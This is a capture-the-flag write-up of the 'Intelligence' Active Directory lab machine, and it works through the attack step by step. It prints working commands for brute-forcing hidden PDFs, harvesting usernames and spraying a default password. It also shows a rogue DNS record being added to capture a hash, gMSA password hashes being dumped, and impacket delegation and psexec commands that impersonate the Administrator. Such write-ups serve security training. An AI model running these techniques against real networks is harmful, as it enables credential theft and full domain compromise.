Introduction
Intelligence was an medium-level box that showcased realistic AD-attacks.
Initially we find a web-server with two pdfs in the format of 2020-Month-Day so we create a bruteforce script to download any other pdfs not linked directly. After this we extract a list of usernames from the pdfs as well as a default password which we then use to password spray using crackmapexec.
This returns a hit on a Tiffany.Molina who has access to the user.txt as well as to the IT share which contains a powershell script that runs every 5 minutes. We then add a DNS record using the default credentials we recovered, get a set of new credentials. Use new credentials to read the hashed password of a service-user which we can then use in a silver-ticket type of attack and impersonate the Administrator.
Nmap
Ports tcp open in nmap format
PORT STATE SERVICE REASON
53/tcp open domain syn-ack
80/tcp open http syn-ack
88/tcp open kerberos-sec syn-ack
135/tcp open msrpc syn-ack
139/tcp open netbios-ssn syn-ack
389/tcp open ldap syn-ack
445/tcp open microsoft-ds syn-ack
Ports services and versions nmap format
# Nmap 7.93 scan initiated Tue Jul 25 12:45:23 2023 as: nmap -sC -sV -p 49691,62696,49666,3268,49711,139,135,53,445,5985,80,636,3269,49692,9389,464,593,49717,88,389 -oA scans/Intelligence -vv 10.129.156.112
Nmap scan report for 10.129.156.112
Host is up, received syn-ack (0.28s latency).
Scanned at 2023-07-25 12:45:23 EDT for 106s
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack Simple DNS Plus
80/tcp open http syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Intelligence
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
88/tcp open kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2023-07-25 23:45:31Z)
135/tcp open msrpc syn-ack Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-07-25T23:47:07+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
445/tcp open microsoft-ds? syn-ack
464/tcp open kpasswd5? syn-ack
593/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-07-25T23:47:08+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-07-25T23:47:07+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
3269/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-07-25T23:47:08+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
5985/tcp open http syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf syn-ack .NET Message Framing
49666/tcp open msrpc syn-ack Microsoft Windows RPC
49691/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
49692/tcp open msrpc syn-ack Microsoft Windows RPC
49711/tcp open msrpc syn-ack Microsoft Windows RPC
49717/tcp open msrpc syn-ack Microsoft Windows RPC
62696/tcp open msrpc syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2023-07-25T23:46:28
|_ start_date: N/A
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 39536/tcp): CLEAN (Timeout)
| Check 2 (port 65329/tcp): CLEAN (Timeout)
| Check 3 (port 22132/udp): CLEAN (Timeout)
| Check 4 (port 35934/udp): CLEAN (Timeout)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
| 311:
|_ Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 25 12:47:09 2023 -- 1 IP address (1 host up) scanned in 106.20 seconds
Ports UDP nmap format
Discovered open port 53/udp on 10.129.156.112
Port 80 - HTTP (IIS)

Downloading the two PDFs we get two usernames:

- William.Lee
- Jose.Williams
As the format for PDFs is in the form of Year-Month-Day we can create a bash script to enumerate and download all available files.
#!/bin/bash
URL="http://10.129.156.112/documents/"
# Function to generate all possible date patterns for the year 2020
generate_date_patterns() {
local start_month=1
local end_month=12
local days_in_month=("31" "28" "31" "30" "31" "30" "31" "31" "30" "31" "30" "31")
for ((month = start_month; month <= end_month; month++)); do
# Determine the maximum day for the current month
local max_day="${days_in_month[month - 1]}"
for ((day = 1; day <= max_day; day++)); do
# Formatting the day and month with leading zeros if needed
formatted_month=$(printf "%02d" "$month")
formatted_day=$(printf "%02d" "$day")
# Generating the date pattern in YYYY-MM-DD format for the year 2020
pattern="2020-${formatted_month}-${formatted_day}"
# Construct the complete URL with the date pattern and file extension
file_url="${URL}${pattern}-upload.pdf"
# Check if the file exists (return code 200) before attempting to download
if wget --spider "$file_url" 2>/dev/null; then
# Download the file using wget if it exists
wget "$file_url"
else
echo "File not found: $file_url"
fi
done
done
}
# Call the function to generate date patterns and download files for the year 2020
generate_date_patterns
After the files were downloaded I thought that some of them might contain usernames or passwords so rather than going through all the pdfs one by one, I used pdfgrep
$ find . -iname '*.pdf' -exec pdfgrep username {} +
./bruteforce/2020-06-04-upload.pdf:Please login using your username and the default password of:
We can open up this pdf using okular or any other pdf reader:

Default credentials: NewIntelligenceCorpUser9876
Now that we have a default password we should also construct a list of usernames since we only have two at this point:
$ exiftool * | grep -i Creator | sort -u | uniq | cut -f 2 -d ":" | tee ../usernames
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
You can remove the space before using vim magic, but I don't think it actually changes anything.
Password spraying smb returns a hit:

intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
Tiffany really should stop using the default password!
Shares that she can access are:

We find a downdetector.ps1 inside the IT share
We also find the user.txt in the Users share that we can submit later on
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*") {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
The script appears to be using it's credentials to make a web request to each DNS record
We can Add/modify/delete Active Directory Integrated DNS records via LDAP: https://github.com/Sagar-Jangam/DNSUpdate
We can add a DNS record:
python3 DNSUpdate.py -u 'intelligence\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a ad -r webma1ware -d 10.10.16.22 -DNS 10.129.156.112

Boom! We get a hash:

Cracking it returns:

Ted.Graves:Mr.Teddy
Checking in bloohound we can read the password of SVC_INT:

Bloodhound recommands we use: https://github.com/micahvandeusen/gMSADumper

ma1ware@shadow:~/pentest/htb/boxes/Intelligence/gMSADumper$ python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb
Users or groups who can read password for svc_int$:
> DC$
> itsupport
svc_int$:::fb49fcd5ffc6fefa70503e08c9cd8261
svc_int$:aes256-cts-hmac-sha1-96:7780ba9c60cac7b51f89a4faee199cb103b350082fdac5f7c412fd024d0fc5e6
svc_int$:aes128-cts-hmac-sha1-96:de0b7110639ccbcd2cf195840d6b3ca7
I tried to crack the hash but that failed, so since this is a service account we can create a silver ticket
since this user has AllowedToDelegate on the DC:

To get the SPN we can access Node properties of svc_int user in Bloodhound
Before we carry out the exploit we should sync our time with the DC:
$ sudo rdate -n <ip of DC>
impacket-getST -spn www/dc.intelligence.htb -dc-ip 10.129.156.112 -impersonate Administrator intelligence.htb/svc_int -hashes :fb49fcd5ffc6fefa70503e08c9cd8261

Then we use the ticket with psexec.py
$ KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass administrator@intelligence.htb

And with that the box is finished!